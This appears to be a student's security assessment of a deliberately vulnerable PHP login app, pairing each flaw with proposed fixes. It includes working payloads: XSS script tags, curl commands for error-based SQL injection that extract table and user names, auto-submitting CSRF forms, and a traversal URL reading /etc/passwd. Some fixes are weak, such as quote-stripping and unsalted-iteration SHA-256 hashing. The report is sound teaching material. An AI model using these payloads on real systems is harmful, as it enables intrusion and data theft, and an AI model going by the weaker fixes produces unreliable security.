



<style>
h1 {
    text-align: center;
}

h2 {
    text-align: center;
}
</style>

# Website Vulnerability Report
## Daniel Vetrila
## C00271021
<div style="page-break-after: always;"></div>


## Vulnerability Type
Reflective Cross-Site Scripting (XSS)

## Location
The vulnerability was found in the login functionality, specifically in the username field of the login form.

## Steps to Reproduce
1. Navigate to the login page
2. In the username field, enter the following payload:
   ```html
   <script>alert(1)</script>
   ```
3. Submit the form
4. The JavaScript alert will execute, demonstrating the XSS vulnerability

## Vulnerability Analysis
The vulnerability exists because:
1. User input is not properly sanitized before being displayed
2. The `cleanChars()` function in `login.inc.php` is ineffective as it simply returns the input without any sanitization:
   ```php
   function cleanChars($val) {
       return $val;
   }
   ```
3. The unsanitized input is used in error messages and other output contexts

## Impact
- Attackers can execute arbitrary JavaScript code in the context of the victim's session
- Potential for:
  - Session hijacking
  - Credential theft
  - Malicious redirects
  - Defacement of the application

## Mitigation Strategy
1. Implement a custom input sanitization function that handles various XSS attack vectors:
   ```php
   function cleanChars($val) {
       // Convert special characters to HTML entities
       $val = str_replace('&', '&amp;', $val);
       $val = str_replace('<', '&lt;', $val);
       $val = str_replace('>', '&gt;', $val);
       $val = str_replace('"', '&quot;', $val);
       $val = str_replace("'", '&#039;', $val);
       
       // Remove any remaining script tags and their content
       $val = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', '', $val);
       
       // Remove any event handlers
       $val = preg_replace('/on\w+="[^"]*"/i', '', $val);
       $val = preg_replace('/on\w+=\'[^\']*\'/i', '', $val);
       
       return $val;
   }
   ```

2. Use Content Security Policy (CSP) headers to restrict script and image execution:
   ```php
   header("Content-Security-Policy: default-src 'self'; script-src 'self'; img-src 'self' data: ./Screenshots/");
   ```

3. Implement proper output encoding using the custom function:
   ```php
   echo cleanChars($userInput);
   ```

## Testing Results
- Screenshot 1: XSS payload execution

- Screenshot 2: Error message with XSS payload

- Screenshot 3: Fixed code with proper sanitization (loing.inc.php)

- Screenshot 4: Failed login without XSS payload


## Additional Notes
- The vulnerability affects the error message display in the login process
- The same vulnerability might exist in other parts of the application where user input is displayed
- Regular security testing should be performed to identify similar vulnerabilities

<div style="page-break-after: always;"></div>


## Vulnerability Type
Stored Cross-Site Scripting (XSS)

## Location
The vulnerability was found in the admin interface, specifically in the login events log display when viewing failed login attempts.

## Steps to Reproduce
1. Navigate to the login page
2. In the username field, enter the following payload:
   ```html
   '><div><script>alert(1)</script>
   ```
3. Submit the form (success or failure doesn't matter)
4. Log in as admin
5. Navigate to admin.php
6. The JavaScript alert will execute when viewing the login events log

## Vulnerability Analysis
The vulnerability exists because:
1. Malicious input is stored in the `loginEvents` table without proper sanitization
2. The stored input is later displayed in the admin interface without proper encoding
3. The `cleanChars()` function in `login.inc.php` is ineffective as it simply returns the input without any sanitization:
   ```php
   function cleanChars($val) {
       return $val;
   }
   ```
4. The payload bypasses basic input filtering and persists in the database

## Impact
- Attackers can execute arbitrary JavaScript code in the context of the admin's session
- Potential for:
  - Admin account compromise
  - Privilege escalation
  - Data exfiltration
  - Session hijacking
  - Complete system compromise

## Mitigation Strategy
1. Implement a custom input sanitization function that handles various XSS attack vectors:
   ```php
   function cleanChars($val) {
       // Convert special characters to HTML entities
       $val = str_replace('&', '&amp;', $val);
       $val = str_replace('<', '&lt;', $val);
       $val = str_replace('>', '&gt;', $val);
       $val = str_replace('"', '&quot;', $val);
       $val = str_replace("'", '&#039;', $val);
       
       // Remove any remaining script tags and their content
       $val = preg_replace('/<script\b[^>]*>(.*?)<\/script>/is', '', $val);
       
       // Remove any event handlers
       $val = preg_replace('/on\w+="[^"]*"/i', '', $val);
       $val = preg_replace('/on\w+=\'[^\']*\'/i', '', $val);
       
       return $val;
   }
   ```

2. Use Content Security Policy (CSP) headers to restrict script and image execution:
   ```php
   header("Content-Security-Policy: default-src 'self'; script-src 'self'; img-src 'self' data: ./Screenshots/");
   ```

3. Implement proper output encoding using the custom function:
   ```php
   echo cleanChars($userInput);
   ```

## Testing Results
- Screenshot 1: Stored XSS payload execution in admin interface

- Screenshot 2: Login attempt with XSS payload

- Screenshot 3: Fixed code with proper sanitization (admin.php)

- Screenshot 4: Admin interface after fix

## Additional Notes
- The vulnerability affects the admin interface and persists across sessions
- The same vulnerability might exist in other parts of the application where stored user input is displayed
- Regular security testing should be performed to identify similar vulnerabilities
- Consider implementing additional security measures for admin interfaces


<div style="page-break-after: always;"></div>


## Vulnerability Type
SQL Injection (Error-based)

## Location
The vulnerability was found in the login functionality, specifically in the login query in `login.inc.php`:
```php
$sql = "SELECT * FROM sapusers WHERE user_uid = '" .$uid. "' and user_pwd ='" .$pwd. "'";
```

## Steps to Reproduce
1. Database Enumeration:
```bash
curl -X POST "http://localhost/includes/login.inc.php" \
--data "uid=KASj' AND EXTRACTVALUE(4537,CONCAT(0x5c,(SELECT MID((IFNULL(CAST(table_name AS NCHAR),0x20)),1,18) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x736563757265617070646576) LIMIT 2,1)))-- WpHM&pwd=balls&submit="
```
This reveals the table name 'sapusers' from the secureappdev database.

2. Data Extraction:
```bash
curl -X POST "http://localhost/includes/login.inc.php" \
--data "uid=idkmanihatemylife' AND (SELECT 5207 FROM(SELECT COUNT(*),CONCAT((SELECT MID((IFNULL(CAST(user_uid AS NCHAR),0x20)),1,51) FROM secureappdev.sapusers ORDER BY user_id LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- random&pwd=poop&submit=luvyou"
```
This extracts the first username ('admin') from the sapusers table with 1 appended from the rand() function.

## Vulnerability Analysis
The vulnerability exists because:
1. User input is directly concatenated into the SQL query without sanitization
2. The application uses error-based SQL injection, revealing database information through error messages
3. The `cleanChars()` function does not prevent SQL injection:
   ```php
   function cleanChars($val) {
       return $val;
   }
   ```
4. The application reveals detailed error messages that aid in exploitation

## Impact
- Complete database enumeration possible
- Extraction of sensitive user data
- Authentication bypass
- Potential for:
  - Credential theft
  - Privilege escalation
  - Data manipulation
  - Complete database compromise

## Mitigation Strategy
1. Implement parameterized queries:
   ```php
   $sql = "SELECT * FROM sapusers WHERE user_uid = ? AND user_pwd = ?";
   $stmt = $conn->prepare($sql);
   $stmt->bind_param("ss", $uid, $pwd);
   $stmt->execute();
   ```

2. Implement proper input validation:
   ```php
   function validateInput($input) {
       // Remove SQL-specific characters
       $input = preg_replace('/[;\'"]/', '', $input);
       // Limit input length
       $input = substr($input, 0, 50);
       return $input;
   }
   ```

3. Configure error handling to prevent information disclosure:
   ```php
   // In production environment
   error_reporting(0);
   ini_set('display_errors', 0);
   ```

## Testing Results
- Screenshot 1: Database enumeration results

- Screenshot 2: User enumeration results

- Screenshot 3: Fixed code with parameterized queries

- Screenshot 4: Error handling after fix


## Additional Notes
- The vulnerability allows for complete database enumeration
- Error messages reveal sensitive database information
- The same vulnerability might exist in other queries throughout the application
- Regular security testing should be performed to identify similar vulnerabilities
- Consider implementing additional database security measures:
  - Principle of least privilege for database users
  - Regular database audits
  - Input validation at multiple levels
<div style="page-break-after: always;"></div>


## Vulnerability Type
Password Storage (Plain Text)

## Location
The vulnerability was found in multiple locations:
1. `login.inc.php` - Password comparison during login
2. `signup.inc.php` - Password storage during registration
3. `reset.inc.php` - Password storage during password reset
4. `secureappdev.sql` - Initial database setup with plain text passwords

## Steps to Reproduce
1. Register a new user:
   - Navigate to register.php
   - Create an account with username "test" and password "TestPass123!"
   - The password is stored in plain text in the database

2. View stored passwords:
   - Access the database directly
   - Query the `sapusers` table
   - Observe passwords stored in plain text

3. Initial database setup:
   - The SQL file shows admin credentials stored in plain text:
   ```sql
   INSERT INTO `sapusers` (`user_uid`, `user_pwd`, `user_admin`) 
   VALUES ('admin', 'AdminPass1!', '1');
   ```

## Vulnerability Analysis
The vulnerability exists because:
1. Passwords are stored in plain text in the database:
   ```php
   // In signup.inc.php
   $hashedPWD = $pwd; // No hashing performed
   $sql = "INSERT INTO `sapusers` (`user_uid`, `user_pwd`) VALUES (?, ?)";
   ```

2. Password comparison is done using direct string comparison:
   ```php
   // In login.inc.php
   if (strcmp($hashedPwdCheck, $pwd) !== 0) {
       failedLogin($uid,$ipAddr);
   }
   ```

3. Password reset functionality also stores passwords in plain text:
   ```php
   // In reset.inc.php
   $changePass = "UPDATE `sapusers` SET `user_pwd` = ? WHERE `user_uid` = ?";
   ```

## Impact
- Complete password disclosure if database is compromised
- Credential theft
- Account compromise
- Potential for:
  - Unauthorized access
  - Identity theft
  - Privilege escalation
  - Data breach

## Mitigation Strategy
1. Implement a custom password hashing function using SHA-256 with salt:
   ```php
   function hashPassword($password) {
       // Generate a random salt
       $salt = bin2hex(random_bytes(16));
       
       // Combine password and salt
       $saltedPassword = $password . $salt;
       
       // Hash using SHA-256
       $hashedPassword = hash('sha256', $saltedPassword);
       
       // Return both hash and salt for storage
       return $hashedPassword . ':' . $salt;
   }
   ```

2. Implement password verification:
   ```php
   function verifyPassword($password, $storedHash) {
       // Split stored hash and salt
       list($hash, $salt) = explode(':', $storedHash);
       
       // Hash the provided password with the same salt
       $saltedPassword = $password . $salt;
       $hashedPassword = hash('sha256', $saltedPassword);
       
       // Compare hashes
       return hash_equals($hash, $hashedPassword);
   }
   ```

3. Update database schema to accommodate salt storage:
   ```sql
   ALTER TABLE sapusers 
   MODIFY COLUMN user_pwd VARCHAR(96) NOT NULL;
   ```

4. Implement password update in registration:
   ```php
   $hashedPassword = hashPassword($pwd);
   $sql = "INSERT INTO `sapusers` (`user_uid`, `user_pwd`) VALUES (?, ?)";
   $stmt = $conn->prepare($sql);
   $stmt->bind_param("ss", $uid, $hashedPassword);
   ```

5. Update login verification:
   ```php
   if (!verifyPassword($pwd, $row['user_pwd'])) {
       failedLogin($uid, $ipAddr);
   }
   ```

## Testing Results
- Screenshot 1: Plain text passwords in database

- Screenshot 2: Password registration without hashing

- Screenshot 3: Fixed code with proper password hashing

- Screenshot 4: Successful login with hashed passwords


## Additional Notes
- The vulnerability affects all user accounts in the system
- Immediate action required to protect user credentials
- Consider implementing a password reset requirement for all users after fix
- Regular security audits should be performed to ensure proper password handling
<div style="page-break-after: always;"></div>


## Vulnerability Type
Cross-Site Request Forgery (CSRF)

## Location
The vulnerability was found in multiple locations:
1. `change.php` - Password change form
2. `includes/reset.inc.php` - Password reset processing
3. `header.php` - Login and logout forms
4. `register.php` - Registration form

## Steps to Reproduce
1. Password Change Attack:
   - Log in as a legitimate user
   - Create a malicious HTML page with the following form:
   ```html
   <form action="http://localhost/includes/reset.inc.php" method="GET">
       <input type="hidden" name="old" value="current_password">
       <input type="hidden" name="new" value="new_password">
       <input type="hidden" name="new_confirm" value="new_password">
       <input type="hidden" name="reset" value="yes">
   </form>
   <script>document.forms[0].submit()</script>
   ```
   - Trick the user into visiting this page while logged in
   - The password will be changed without user consent

2. Logout Attack:
   - Create a malicious page with:
   ```html
   <form id="logoutForm" action="http://localhost/includes/logout.inc.php" method="POST">
       <input type="hidden" name="submit" value="1">
   </form>
   <script>
       document.getElementById('logoutForm').submit();
   </script>
   ```
   - When a logged-in user visits this page, they will be logged out

## Vulnerability Analysis
The vulnerability exists because:
1. Forms lack CSRF tokens:
   ```php
   // In change.php
   <form class="signup-form" action="includes/reset.inc.php" method="GET">
       <input type="password" name="old" value="" placeholder="Old Password">
       <input type="password" name="new" value="" placeholder="New Password">
       <input type="password" name="new_confirm" value="" placeholder="Confirm New Password">
       <button type="submit" name="reset" value="yes">Reset</button>
   </form>
   ```

2. No validation of request origin:
   ```php
   // In reset.inc.php
   if (!isset($_GET['reset'],$_SESSION['u_uid'])) {
       $_SESSION['resetError'] = "Error code 1";
       header("Location: ../index.php");
   }
   ```

3. Session-based authentication without CSRF protection:
   ```php
   // In header.php
   echo '  <form class="" action="includes/login.inc.php" method="POST">
       <input type="text" name="uid" value="" placeholder="Username">
       <input type="password" name="pwd" value="" placeholder="Password">
       <button type="submit" name="submit"> Login </button>
   </form>';
   ```

## Impact
- Unauthorized password changes
- Forced logouts
- Account takeover
- Potential for:
  - Identity theft
  - Unauthorized actions
  - Session hijacking
  - Data manipulation

## Mitigation Strategy
1. Implement CSRF token generation and validation:
   ```php
   function generateCSRFToken() {
       if (empty($_SESSION['csrf'])) {
           $_SESSION['csrf'] = bin2hex(random_bytes(32));
       }
       return $_SESSION['csrf'];
   }

   function validateCSRFToken($token) {
       if (!isset($_SESSION['csrf']) || $token !== $_SESSION['csrf']) {
           return false;
       }
       return true;
   }
   ```

2. Add CSRF tokens to all forms:
   ```php
   // In change.php
   <form class="signup-form" action="includes/reset.inc.php" method="GET">
       <input type="hidden" name="csrf_token" value="<?php echo generateCSRFToken(); ?>">
       <!-- Other form fields -->
   </form>
   ```

3. Validate tokens in form processing:
   ```php
   // In reset.inc.php
   if (!isset($_GET['csrf_token']) || !validateCSRFToken($_GET['csrf_token'])) {
       $_SESSION['resetError'] = "Invalid request";
       header("Location: ../index.php");
       exit();
   }
   ```

4. Add SameSite cookie attribute:
   ```php
   // In header.php
   session_set_cookie_params([
       'lifetime' => 3600,
       'path' => '/',
       'secure' => true,
       'httponly' => true,
       'samesite' => 'Strict'
   ]);
   ```

## Testing Results
- Screenshot 1: CSRF attack form

- Screenshot 2: Successful logout without user consent

- Screenshot 3: Fixed code with CSRF token validation

## Additional Notes
- The vulnerability affects all forms in the application
- Immediate action required to protect user actions
- Consider implementing additional security measures:
  - Double-submit cookie pattern
  - Custom request headers
  - Origin validation
  - Referrer checking
<div style="page-break-after: always;"></div>


## Vulnerability Type
Directory Traversal

## Location
The vulnerability was found in `auth2.php`, specifically in the file viewing functionality:
```php
$ViewFile = $_GET['FileToView'];
if(file_get_contents ("$ViewFile")) {
    $FileData = file_get_contents ("$ViewFile");
    echo $FileData;
}
```

## Steps to Reproduce
1. Log in as any user
2. Navigate to auth2.php
3. Modify the URL parameter to access sensitive files:
   ```
   http://localhost/auth2.php?FileToView=../../../etc/passwd
   ```
   or
   ```
   http://localhost/auth2.php?FileToView=../includes/dbh.inc.php
   ```

4. The contents of the requested file will be displayed, regardless of its location in the filesystem

## Vulnerability Analysis
The vulnerability exists because:
1. User input is directly used in `file_get_contents()` without validation:
   ```php
   $ViewFile = $_GET['FileToView'];
   if(file_get_contents ("$ViewFile")) {
       $FileData = file_get_contents ("$ViewFile");
       echo $FileData;
   }
   ```

2. No path sanitization or validation is performed
3. No access control checks are implemented
4. The application allows reading any file on the server that the web server process has access to

## Impact
- Unauthorized access to sensitive files including:
  - Configuration files
  - Database credentials
  - Source code
  - System files
  - User data
- Potential for:
  - Information disclosure
  - Credential theft
  - System compromise
  - Data breach

## Mitigation Strategy
1. Implement path validation and sanitization:
   ```php
   function validateFilePath($filePath) {
       // Normalize the path
       $realPath = realpath($filePath);
       
       // Define allowed directories
       $allowedDirs = [
           __DIR__ . '/public',
           __DIR__ . '/uploads'
       ];
       
       // Check if the file is within allowed directories
       foreach ($allowedDirs as $dir) {
           if (strpos($realPath, $dir) === 0) {
               return true;
           }
       }
       
       return false;
   }
   ```

2. Implement file type restrictions:
   ```php
   function isAllowedFileType($filePath) {
       $allowedExtensions = ['txt', 'pdf', 'jpg', 'png'];
       $extension = strtolower(pathinfo($filePath, PATHINFO_EXTENSION));
       return in_array($extension, $allowedExtensions);
   }
   ```

3. Add access control checks:
   ```php
   function checkFileAccess($filePath, $userId) {
       // Check if user has permission to access this file
       $sql = "SELECT * FROM file_permissions WHERE file_path = ? AND user_id = ?";
       $stmt = $conn->prepare($sql);
       $stmt->bind_param("si", $filePath, $userId);
       $stmt->execute();
       return $stmt->get_result()->num_rows > 0;
   }
   ```

4. Implement secure file viewing:
   ```php
   if (isset($_GET['FileToView'])) {
       $filePath = $_GET['FileToView'];
       
       // Validate and sanitize the file path
       if (!validateFilePath($filePath)) {
           die("Invalid file path");
       }
       
       // Check file type
       if (!isAllowedFileType($filePath)) {
           die("File type not allowed");
       }
       
       // Check user permissions
       if (!checkFileAccess($filePath, $_SESSION['u_id'])) {
           die("Access denied");
       }
       
       // Read and display file contents safely
       $content = file_get_contents($filePath);
       if ($content !== false) {
           echo htmlspecialchars($content);
       } else {
           echo "Error reading file";
       }
   }
   ```

5. Add security headers:
   ```php
   header("X-Content-Type-Options: nosniff");
   header("Content-Disposition: inline");
   ```

## Testing Results
- Screenshot 1: Directory traversal attack accessing /etc/passwd

- Screenshot 2: Directory traversal accessing database credentials

- Screenshot 3: Fixed code with path validation

- Screenshot 4: Access denied for unauthorized files


## Additional Notes
- The vulnerability affects all authenticated users
- Immediate action required to prevent unauthorized file access
- Consider implementing additional security measures:
  - File access logging
  - Rate limiting for file access
  - Content-Type verification
  - File size limits
  - Whitelist of allowed file paths
<div style="page-break-after: always;"></div>


## Vulnerability Type
Session Management and Session Fixation

## Location
The vulnerability was found in multiple locations:
1. `header.php` - Session initialization and timeout handling
2. `login.inc.php` - Session creation and management
3. `logout.inc.php` - Session destruction
4. All authenticated pages - Session validation

## Steps to Reproduce
1. Session Fixation:
   - Attacker obtains a valid session ID
   - Forces victim to use this session ID
   - Victim logs in, session becomes authenticated
   - Attacker can now access the authenticated session

2. Session Hijacking:
   - Attacker intercepts session cookie
   - Uses the cookie to impersonate the victim
   - Gains access to victim's authenticated session

3. Session Timeout Issues:
   - Log in to the application
   - Leave the session idle
   - Session remains active indefinitely
   - No automatic timeout enforcement

## Vulnerability Analysis
The vulnerability exists because:
1. No session regeneration on login:
   ```php
   // In login.inc.php
   $_SESSION['u_id'] = $row['user_id'];
   $_SESSION['u_uid'] = $row['user_uid'];
   $_SESSION['u_admin'] = $row['user_admin'];
   ```

2. Insufficient session timeout handling:
   ```php
   // In header.php
   <meta http-equiv="refresh" content="3600;url=includes/logout.inc.php" />
   ```

3. No secure session configuration:
   ```php
   // In header.php
   session_start();
   ```

4. Client-side session timeout:
   ```javascript
   // In header.php
   function resetTimer() {
       clearTimeout(timer);
       timer = setTimeout(logout, 600000) //600000 10 minutes in milliseconds
   }
   ```

## Impact
- Session hijacking
- Session fixation
- Privilege escalation
- Potential for:
  - Account takeover
  - Unauthorized access
  - Data theft
  - Identity theft

## Mitigation Strategy
1. Implement secure session configuration:
   ```php
   function configureSecureSession() {
       // Set secure session parameters
       ini_set('session.cookie_httponly', 1);
       ini_set('session.cookie_secure', 1);
       ini_set('session.use_only_cookies', 1);
       ini_set('session.cookie_samesite', 'Strict');
       
       // Set session name
       session_name('SECUREAPP_SESSION');
       
       // Start session with secure parameters
       session_start([
           'cookie_lifetime' => 3600,
           'gc_maxlifetime' => 3600,
           'cookie_httponly' => true,
           'cookie_secure' => true,
           'cookie_samesite' => 'Strict'
       ]);
   }
   ```

2. Implement session regeneration:
   ```php
   function regenerateSession() {
       // Regenerate session ID
       session_regenerate_id(true);
       
       // Update session timestamp
       $_SESSION['last_activity'] = time();
       
       // Set session timeout
       $_SESSION['expires_at'] = time() + 3600;
   }
   ```

3. Implement server-side session timeout:
   ```php
   function checkSessionTimeout() {
       if (isset($_SESSION['expires_at']) && time() > $_SESSION['expires_at']) {
           // Session has expired
           session_unset();
           session_destroy();
           header("Location: index.php?error=timeout");
           exit();
       }
       
       // Update last activity
       $_SESSION['last_activity'] = time();
   }
   ```

4. Add session validation middleware:
   ```php
   function validateSession() {
       // Check if session exists
       if (!isset($_SESSION['u_id'])) {
           header("Location: index.php");
           exit();
       }
       
       // Check session timeout
       checkSessionTimeout();
       
       // Validate session data
       if (!isset($_SESSION['u_uid']) || !isset($_SESSION['u_admin'])) {
           session_unset();
           session_destroy();
           header("Location: index.php?error=invalid");
           exit();
       }
       
       // Regenerate session periodically
       if (time() - $_SESSION['last_activity'] > 300) { // 5 minutes
           regenerateSession();
       }
   }
   ```

5. Implement secure logout:
   ```php
   function secureLogout() {
       // Clear all session variables
       $_SESSION = array();
       
       // Destroy the session cookie
       if (isset($_COOKIE[session_name()])) {
           setcookie(session_name(), '', time() - 3600, '/');
       }
       
       // Destroy the session
       session_destroy();
       
       // Redirect to index page
       header("Location: index.php");
       exit();
   }
   ```

## Testing Results
- Screenshot 1: Fixed code with secure session handling

- Screenshot 2: Cookie in Browser


## Additional Notes
- The vulnerability affects all authenticated sessions
- Immediate action required to protect user sessions
- Consider implementing additional security measures:
  - IP binding for sessions
  - User agent validation
  - Session activity logging
  - Concurrent session handling
  - Session invalidation on password change
<div style="page-break-after: always;"></div>


## Vulnerability Type
Brute Force Protection (Insufficient)

## Location
The vulnerability was found in multiple locations:
1. `login.inc.php` - Login attempt tracking
2. `signup.inc.php` - Registration attempt tracking
3. `reset.inc.php` - Password reset attempt tracking
4. `secureappdev.sql` - Database schema for failed login tracking

## Steps to Reproduce
1. Login Brute Force:
   - Use a script to attempt multiple logins with different passwords
   - Observe that after 5 failed attempts, there's a 3-minute lockout
   - The lockout is IP-based only, not account-based
   - After 3 minutes, attempts can resume without additional restrictions

2. Registration Brute Force:
   - Attempt to register multiple accounts from the same IP
   - Observe that registration attempts are not properly rate-limited
   - The system only checks for existing usernames, not attempt frequency

3. Password Reset Brute Force:
   - Attempt multiple password resets for the same account
   - Observe that there's no rate limiting on password reset attempts
   - The system only validates the old password, not attempt frequency

## Vulnerability Analysis
The vulnerability exists because:
1. IP-based lockout can be easily bypassed:
   ```php
   // In login.inc.php
   if ($failedLoginCount >= 5) {
       // Only checks IP address
       $checkClient = "SELECT `failedLoginCount`, `timeStamp` FROM `failedLogins` WHERE `ip` = ?";
   }
   ```

2. No account-specific lockout:
   ```php
   // In login.inc.php
   function failedLogin($uid, $ipAddr) {
       // Only tracks IP, not username
       $recordLogin = "INSERT INTO `loginEvents` (`ip`, `timeStamp`, `user_id`, `outcome`) VALUES (?, ?, ?, 'fail')";
   }
   ```

3. Insufficient rate limiting:
   ```php
   // In reset.inc.php
   if (!isset($_GET['reset'],$_SESSION['u_uid'])) {
       // No rate limiting on password reset attempts
   }
   ```

4. Fixed lockout duration:
   ```php
   // In login.inc.php
   if((int)$timeDiff <= 180) { // 3 minutes fixed lockout
       $_SESSION['lockedOut'] = "Due to multiple failed logins you're now locked out, please try again in 3 minutes";
   }
   ```

## Impact
- Brute force attacks possible through:
  - IP rotation
  - Account enumeration
  - Credential stuffing
- Potential for:
  - Account takeover
  - Service disruption
  - Resource exhaustion
  - User enumeration

## Mitigation Strategy
1. Implement progressive delay and lockout:
   ```php
   function calculateLockoutDuration($failedAttempts) {
       // Progressive delay: 1min, 5min, 15min, 30min, 1hour
       $delays = [60, 300, 900, 1800, 3600];
       $index = min($failedAttempts - 1, count($delays) - 1);
       return $delays[$index];
   }
   ```

2. Implement account-based lockout:
   ```php
   function trackFailedAttempt($username, $ip) {
       // Track both username and IP
       $sql = "INSERT INTO failedAttempts (username, ip, timestamp) VALUES (?, ?, NOW())";
       // Clean up old attempts
       $sql = "DELETE FROM failedAttempts WHERE timestamp < DATE_SUB(NOW(), INTERVAL 24 HOUR)";
   }
   ```

3. Add rate limiting for all sensitive operations:
   ```php
   function checkRateLimit($operation, $identifier) {
       $limits = [
           'login' => ['count' => 5, 'window' => 300],  // 5 attempts per 5 minutes
           'register' => ['count' => 3, 'window' => 3600],  // 3 attempts per hour
           'reset' => ['count' => 3, 'window' => 3600]  // 3 attempts per hour
       ];
       
       $sql = "SELECT COUNT(*) FROM rateLimits 
               WHERE operation = ? AND identifier = ? 
               AND timestamp > DATE_SUB(NOW(), INTERVAL ? SECOND)";
   }
   ```

4. Implement CAPTCHA after failed attempts:
   ```php
   function requireCaptcha($failedAttempts) {
       if ($failedAttempts >= 3) {
           return true;
       }
       return false;
   }
   ```

5. Add security headers to prevent automated attacks:
   ```php
   header("X-Frame-Options: DENY");
   header("X-Content-Type-Options: nosniff");
   header("Content-Security-Policy: default-src 'self'");
   ```

## Testing Results
- Brute force attack with IP rotation is hard to demonstrate since all ip addresses are internal. 
- Screenshot 1: Fixed code with progressive lockout


- Screenshot 2: Rate limiting implementation


## Additional Notes
- The vulnerability affects all authentication endpoints
- Immediate action required to protect user accounts
- Consider implementing additional security measures:
  - IP geolocation blocking
  - Device fingerprinting
  - Behavioral analysis
  - Two-factor authentication for suspicious activities
<div style="page-break-after: always;"></div>


## Vulnerability Type
Password Complexity

## Location
The vulnerability was found in multiple locations:
1. `register.php` - Registration form
2. `includes/signup.inc.php` - Password validation during registration
3. `change.php` - Password change form
4. `includes/reset.inc.php` - Password validation during password reset

## Steps to Reproduce
1. Registration with Weak Password:
   - Navigate to register.php
   - Enter a weak password that doesn't meet complexity requirements:
     ```
     Username: testuser
     Password: password
     ```
   - The registration succeeds despite the weak password

2. Password Change with Weak Password:
   - Log in as any user
   - Navigate to change.php
   - Enter a weak new password:
     ```
     Old Password: current_password
     New Password: weak
     Confirm New Password: weak
     ```
   - The password change succeeds despite the weak password

## Vulnerability Analysis
The vulnerability exists because:
1. Client-side validation can be bypassed:
   ```php
   // In register.php
   <input type="password" name="pwd" value="" placeholder="Password" 
          pattern="(?=.*\d)(?=.*[a-z])(?=.*[A-Z]).{8,}" required>
   ```

2. No server-side password complexity validation:
   ```php
   // In signup.inc.php
   if (empty($uid) || empty($pwd)) {
       $_SESSION['register'] = "Cannot submit empty username or password.";
       header("Location: ../index.php");
       exit();
   }
   ```

3. Password reset functionality lacks complexity checks:
   ```php
   // In reset.inc.php
   if ($newConfirm == $newpass) { //confirm they match
       $changePass = "UPDATE `sapusers` SET `user_pwd` = ? WHERE `user_uid` = ?";
   }
   ```

## Impact
- Weak passwords in use
- Increased risk of:
  - Brute force attacks
  - Password guessing
  - Account compromise
  - Credential theft
- Compliance violations (if applicable)

## Mitigation Strategy
1. Implement server-side password complexity validation:
   ```php
   function validatePasswordComplexity($password) {
       $errors = [];
       
       // Check minimum length
       if (strlen($password) < 8) {
           $errors[] = "Password must be at least 8 characters long";
       }
       
       // Check for uppercase letters
       if (!preg_match('/[A-Z]/', $password)) {
           $errors[] = "Password must contain at least one uppercase letter";
       }
       
       // Check for lowercase letters
       if (!preg_match('/[a-z]/', $password)) {
           $errors[] = "Password must contain at least one lowercase letter";
       }
       
       // Check for numbers
       if (!preg_match('/[0-9]/', $password)) {
           $errors[] = "Password must contain at least one number";
       }
       
       // Check for special characters
       if (!preg_match('/[^A-Za-z0-9]/', $password)) {
           $errors[] = "Password must contain at least one special character";
       }
       
       return $errors;
   }
   ```

2. Implement password validation in registration:
   ```php
   // In signup.inc.php
   $passwordErrors = validatePasswordComplexity($pwd);
   if (!empty($passwordErrors)) {
       $_SESSION['register'] = "Password errors: " . implode(", ", $passwordErrors);
       header("Location: ../index.php");
       exit();
   }
   ```

3. Implement password validation in password reset:
   ```php
   // In reset.inc.php
   $passwordErrors = validatePasswordComplexity($newpass);
